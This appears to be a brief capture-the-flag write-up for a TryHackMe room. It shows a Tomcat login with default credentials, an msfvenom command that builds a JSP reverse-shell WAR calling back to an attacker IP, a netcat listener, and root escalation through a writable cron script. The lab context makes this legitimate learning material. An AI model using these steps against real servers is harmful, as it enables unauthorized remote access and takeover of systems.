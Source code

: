 #tomcat #war #msfvenom

https://tryhackme.com/r/room/bsidesgtthompson

---
#### Nmap
![[Screenshot_2024-05-13_18-03-32.png]]
I went on `8080` and I used `tomcat:s3cret` as creds. I've found it in the error message suggestion when you enter wrong credentials.

I will probably have to going by uploading a `.war` file

I m gonna use this [doc](https://node-security.com/posts/jsp-war-shell/) and [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat) one
I need to find a payload with `msfvenom`:
![[Screenshot_2024-05-13_18-55-09.png]]

I'll do my reverse shell with:
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.14.97.56 LPORT=8010 -f war -o reshell.war
```

```shell
nc -lvnp 8010
```

I uploaded the revshell on the tomcat dashboard and a clicked on the revshell
![[Screenshot_2024-05-13_19-02-20.png]]

*And here I am*

The user.txt was in `/home/jack` with 2 others files, one sh writing in the txt every minutes because I checked `cat /etc/crontab`
So I just had to add this line in the sh:
```shell
cat /root/root.txt > file
```
And then `cat` the file and here is the root flag

